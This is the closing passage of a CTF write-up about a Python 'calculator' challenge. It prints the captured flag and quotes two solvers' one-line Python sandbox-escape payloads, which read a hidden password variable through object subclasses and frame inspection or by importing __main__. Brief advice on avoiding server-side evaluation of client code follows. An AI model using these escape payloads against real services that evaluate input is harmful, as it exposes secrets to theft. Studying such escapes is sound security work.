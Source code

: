 (It could be more readable, by making the builtins into a string variable here but... feel the vibe!)

![](https://i.imgur.com/8YZuPMA.png)

`utflag{LGvb7PJXG5JDwhsEW7xp}`

## The intended solution

After my Around the World in 80 days solution, the CTF ended and I went too see the other solutions. There were 70 solves!
I obviously didn't see the simpler solutions.

`bawolff#3779` sent that:

```python
[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == "catch_warnings"][0]()._module.sys._getframe(1).f_locals["password"]
```

That's it. `sys._getframe(1).f_locals` to get local variables from the caller `(dumb me)`.

And there was another, even simpler, approach, from `bliutech#7756`.

```python
__import__('__main__').password
```

`(dumb me)^2`

But it was so fun...

## Preventing

If you need to evaluate code from the client, is hard to guarantee safety. Python might not be the best choice. Maybe JavaScript? Can you do it without running client-controlled code on the server?

If you really need it, you should look for safer, sandboxed solutions.

I'm sure I'm forgetting other important protections here. Send me hints for better security on [Twitter](https://twitter.com/NeptunianHacks).


## References
* Team: [FireShell](https://fireshellsecurity.team/)
* [Team Twitter](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](https://twitter.com/NeptunianHacks) 
* [Github Repo with artifacts discussed here](https://github.com/Neptunians/utcft-2023-writeup-calculator)
* [CTF Time Event](https://ctftime.org/event/1919)
* [Mersenne Twister](https://en.wikipedia.org/wiki/Mersenne_Twister)
* [pseudorandom number generator (PRNG)](https://en.wikipedia.org/wiki/Pseudorandom_number_generator)
* [Cracking Random Number Generators - Part 4](https://jazzy.id.au/2010/09/25/cracking_random_number_generators_part_4.html)
* [Hacktricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
* [Python Socket Programming - Server, Client Example](https://www.digitalocean.com/community/tutorials/python-socket-programming-server-client)
* [ngrok](https://ngrok.com/)